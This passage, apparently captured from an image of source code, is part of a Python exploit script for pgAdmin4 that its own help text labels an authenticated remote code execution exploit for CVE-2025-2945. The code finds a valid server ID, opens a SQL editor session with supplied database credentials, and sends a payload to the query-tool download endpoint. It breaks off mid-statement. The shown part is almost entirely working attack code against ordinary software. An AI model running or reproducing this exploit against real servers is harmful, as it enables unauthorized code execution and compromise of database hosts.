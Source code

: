 ```

    # Find a valid server ID
    sgid = randint(1, 10)
    sid = None
    for i in range(1, max_server_id + 1):
        resp = session.get(
            urljoin(target_url, f'/sqleditor/get_server_connection/{sgid}/{i}'),
            headers={"Content-Type": "application/x-www-form-urlencoded"}
        )
        if resp.status_code == 200:
            if resp.json().get('data', {}).get('status') is True:
                print("[+] Found valid server ID:", i)
                sid = i
                break
        else:
            print(f"[!] Received {resp.status_code} when trying to find server ID")
            print("[!] Received body:", resp.text)
            return False

    if sid is None:
        print("[!] Failed to find a valid server ID, try increasing MAX_SERVER_ID")
        return False

    # Initialize sqleditor
    trans_id = randint(1_000_000, 9_999_999)
    did = randint(10000, 99999)
    resp = session.post(
        urljoin(target_url, f"/sqleditor/initialize/sqleditor/{trans_id}/{sgid}/{sid}/{did}"),
        json={
            "user": db_user,
            "password": db_pass,
            "role": "",
            "dbname": db_name,
        }
    )
    if not resp.ok:
        print("[!] Failed to initialize sqleditor")
        return False

    # Send the payload
    print("[+] Exploiting the target...")
    resp = session.post(
        urljoin(target_url, f"/sqleditor/query_tool/download/{trans_id}"),
        json={"query_commited": payload},
        headers={
            "Referer": urljoin(target_url, f"/sqleditor/panel/{trans_id}?is_query_tool=true")
        }
    )
    if resp.status_code == 500:
        print("[+] Received expected 500 response:", resp.text)
        return True
    else:
        print(
            "[!] Received unexpected response code from the exploit attempt:",
            resp.status_code, resp.text
        )
        return False

if __name__ == '__main__':
    import argparse
    import sys
    parser = argparse.ArgumentParser(
        description="pgAdmin4 query tool authenticated RCE (CVE-2025-2945) exploit"
```